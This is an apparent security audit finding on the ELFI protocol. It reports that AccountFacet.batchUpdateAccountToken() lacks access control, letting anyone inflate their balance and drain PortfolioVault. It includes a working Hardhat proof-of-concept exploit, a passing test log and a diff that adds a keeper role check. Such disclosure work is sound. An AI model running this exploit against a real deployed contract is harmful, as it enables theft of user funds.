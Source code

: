 Narrow Olive Kookaburra

High

# The ````PortfolioVault```` could be drained

## Summary
````AccountFacet.batchUpdateAccountToken()```` is missing access control, anyone can use it to modify any account's balance directly. Causing all funds in ````PortfolioVault```` to be drained.

## Vulnerability Detail
As shown of L68\~L71 of ````AccountFacet.sol````, there is no access control. Attackers can call it to increases their account' balance and then call ````createWithdrawRequest()```` to steal all funds held by ````PortfolioVault````.
```solidity
File: contracts\facets\AccountFacet.sol
68:     function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override {
            // @audit no access control?
69:         AddressUtils.validEmpty(params.account); 
70:         AssetsProcess.updateAccountToken(params);
71:     }

```
The following PoC shows the details how this would happen:
```typescript
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { AccountFacet, ERC20, RoleAccessControlFacet } from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { ethers } from 'hardhat'
import { precision } from '@utils/precision'

describe('batchUpdateAccountToken() bug test', function () {
    let fixture: Fixture
    let keeper: HardhatEthersSigner
    let attacker: HardhatEthersSigner
    let diamondAddr: string
    let roleAccessControlFacet: RoleAccessControlFacet
    let accountFacet: AccountFacet
    let WETH: ERC20
    const ROLE_KEEPER = ethers.encodeBytes32String('KEEPER')

    beforeEach(async () => {
        fixture = await deployFixture()
        const {wallet, user0, user8} = fixture.accounts
        keeper = user0
        attacker = user8
        diamondAddr = await fixture.diamond.getAddress()
        const getFacet = <T>(name: string) => ethers.getContractAt(name, diamondAddr) as Promise<T>
        roleAccessControlFacet = await getFacet<RoleAccessControlFacet>('RoleAccessControlFacet')
        accountFacet = await getFacet<AccountFacet>('AccountFacet')

        const { portfolioVaultAddr } = fixture.addresses
        const { weth } = fixture.tokens
        WETH = weth
        WETH.connect(wallet).transfer(portfolioVaultAddr, precision.token(1_000))
        WETH.connect(wallet).transfer(attacker, precision.token(1));
    })

    it('Test draining fund from PortfolioVault', async function () {
        let isKeeper = await roleAccessControlFacet.hasRole(keeper, ROLE_KEEPER)
        expect(isKeeper).to.equals(true)

        isKeeper = await roleAccessControlFacet.hasRole(attacker, ROLE_KEEPER)
        expect(isKeeper).to.equals(false)

        // 1. deposit some WETH to active account
        let balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(precision.token(1))
        await WETH.connect(attacker).approve(accountFacet.getAddress(), precision.token(1))
        await accountFacet.connect(attacker).deposit(WETH.getAddress(), precision.token(1))
        balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(0)

        // 2. call batchUpdateAccountToken() to increase 1000 WETH balance
        const params = {
            account: attacker.address,
            tokens: [WETH.getAddress()],
            changedTokenAmounts: [precision.token(1_000)]
        }
        await accountFacet.connect(attacker).batchUpdateAccountToken(params)

        // 3. initiate withdrawal request
        await accountFacet.connect(attacker).createWithdrawRequest(WETH.getAddress(), precision.token(1_000))

        // 4. keepers monitor and execute withdrawal
        const oracleParams = [
            {
                token: WETH.getAddress(),
                targetToken: ethers.ZeroAddress,
                minPrice: precision.price(4_000, 8),
                maxPrice: precision.price(4_000, 8)
            }
        ]
        await accountFacet.connect(keeper).executeWithdraw(1112, oracleParams)

        // 5. PortfolioVault's fund drained
        balance = await WETH.balanceOf(attacker)
        expect(balance).to.equals(precision.token(1_000))
    })

})
```

And the test log:
```solidity
2024-05-elfi-protocol\elfi-perp-contracts> npx hardhat test .\test\single-cases\BugBatchUpdateAccountToken.test.ts


  batchUpdateAccountToken() bug test
...
config common end
    ✔ Test draining fund from PortfolioVault (289ms)


  1 passing (15s)
```

## Impact
All funds in ````PortfolioVault```` could be drained

## Code Snippet
https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/main/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68

## Tool used

Manual Review

## Recommendation
```diff
    function batchUpdateAccountToken(AssetsProcess.UpdateAccountTokenParams calldata params) external override
+    RoleAccessControl.checkRole(RoleAccessControl.ROLE_KEEPER);
        AddressUtils.validEmpty(params.account);
        AssetsProcess.updateAccountToken(params);
    }
```
